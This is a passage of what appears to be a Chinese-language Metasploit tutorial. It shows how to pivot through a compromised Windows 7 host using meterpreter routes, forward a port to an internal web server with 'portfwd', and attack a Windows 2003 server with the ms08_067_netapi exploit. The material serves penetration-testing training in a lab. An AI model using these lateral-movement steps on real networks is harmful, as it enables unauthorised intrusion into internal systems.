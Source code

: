 查看路由命令的参数。`add`参数将把详细信息添加到路由表中。然后我们提供了目标节点的 IP 地址和默认网关。最后，我们提供了当前活动的 meterpreter 会话 ID（即 1）。`route print`命令显示了表，你可以清楚地看到所有通过这个网络发送的流量现在都将通过 meterpreter 会话 1。

现在你可以快速对 IP 地址 10.0.2.7 进行端口扫描，这个地址以前对我们来说是不可达的，但现在我们已经通过目标节点路由了我们的数据包，所以我们可以轻松地找出开放的端口和服务。一旦你发现它正在运行 Windows 2003 服务器，你就可以继续使用`exploit/windows/smb/ms08_067_netapi`或任何其他基于操作系统的漏洞来攻击服务器或访问其服务。

# 使用 meterpreter 进行端口转发

讨论枢纽转发时，没有谈论端口转发是不完整的。在这个教程中，我们将继续从之前的枢纽转发教程中，看看如何将数据和请求从攻击机器通过目标节点转发到内部网络服务器。这里需要注意的一点是，我们可以使用端口转发来访问内部服务器的各种服务，但如果我们必须利用服务器，那么我们将不得不使用在之前的教程中讨论的完整概念。

## 准备工作

我们将从之前的教程中讨论的相同场景开始。我们已经攻破了目标节点，这是一个 Windows 7 机器，并且我们已经添加了路由信息，以便通过 meterpreter 会话转发发送到网络上的所有数据包。让我们来看一下路由表。

```
msf exploit(handler) > route print
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
10.0.2.15 255.255.255.0 Session 1 
```

所以我们的表已经准备好了。现在我们将设置端口转发，以便我们的请求通过中继到达内部服务器。

## 如何做...

假设内部服务器在端口 80 上运行 Web 服务，我们想通过端口转发访问它。现在，为了做到这一点，我们将使用`portfwd`命令。让我们检查一下这个命令的可用选项，然后传递相关的值。

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
-L <opt> The local host to listen on (optional).
-h Help banner.
-l <opt> The local port to listen on.
-p <opt> The remote port to connect to.
-r <opt> The remote host to connect to.
meterpreter > portfwd add -l 4321 -p 80 -r 10.0.2.7
[*] Local TCP relay created: 0.0.0.0:4321 <-> 10.0.2.7:80 
```

成功执行命令表明，攻击者和内部服务器之间已经建立了本地 TCP 中继。攻击者机器上的监听端口是 4321，要访问的内部服务器上的服务端口是 80。

由于我们已经设置了路由信息，整个中继过程是透明的。现在，如果我们尝试通过浏览器使用 URL `http://10.0.2.7:80`来访问内部服务器，那么我们将被引导到内部网络的 http 内部服务。

在需要运行 Metasploit 不提供的命令或应用程序的情况下，端口转发可能非常方便。在这种情况下，您可以使用端口转发来简化您的任务。

这是端口转发的一个小演示。在下一个教程中，我们将开始使用 Ruby 编程来开发我们自己的 meterpreter 脚本。

## 工作原理...
